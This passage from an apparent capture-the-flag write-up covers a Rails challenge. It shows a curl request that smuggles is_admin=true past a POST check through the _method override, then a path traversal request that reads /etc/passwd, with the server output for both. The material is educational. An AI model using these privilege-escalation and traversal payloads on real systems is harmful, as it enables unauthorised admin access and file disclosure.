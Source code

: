 
If the `request.post?` check was not present, it would be possible to fill `req_params` with anything, in particular with `is_admin`, which would effectively set the current user administrator.

It is possible to make `request.post` be false even though the request is a `POST` request using Rails's magic `_method` parameter.
The source for parameter can be found [on Ruby on Rails's documentation](https://api.rubyonrails.org/classes/ActionDispatch/Request.html#method-i-request_method)



```
$ curl 'http://web-emeraldrush.ctfz.one/user' \
    -H "Cookie: session=$SESSION" \
    --data-urlencode 'username=tfns' \
    --data-urlencode 'password=H1gh.Qu4lity.St3gan0gr4ph3rz' \
    --data-urlencode 'is_admin=true' \
    --data-urlencode '_method=GET'


[...]
  <h1>Profile</h1>
    <p class="username"><strong>Username: </strong> tfns </p>
    <p class="user-id"><strong>UserID: </strong> 151</p>
      <p class="role"><strong>Role: </strong> Admin </p>
[...]
```

After a quick logout/login:

![](https://i.imgur.com/JmmNoLG.png)

## File Service

Once we are admin we are allowed to use the Files section.

![](https://i.imgur.com/KTXGpLc.png)

He we can upload and retreive files.

After **a lot** of guessing we discovered a weird behavior.

If we upload a file named `owned` we can retreive it by going on the link `http://web-emeraldrush.ctfz.one/files?filename=owned`

But if we go to `http://web-emeraldrush.ctfz.one/files?filename=owne/d` with a `/` in the middle of the name the server returns an error 500. This behavior is present only if a file with the name `owned` exists.

So we tried to create a file file named `....................etcpasswd`.
And retreving it with `http://web-emeraldrush.ctfz.one/files?filename=../../../../../../../../../../etc/passwd`

And we got

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```
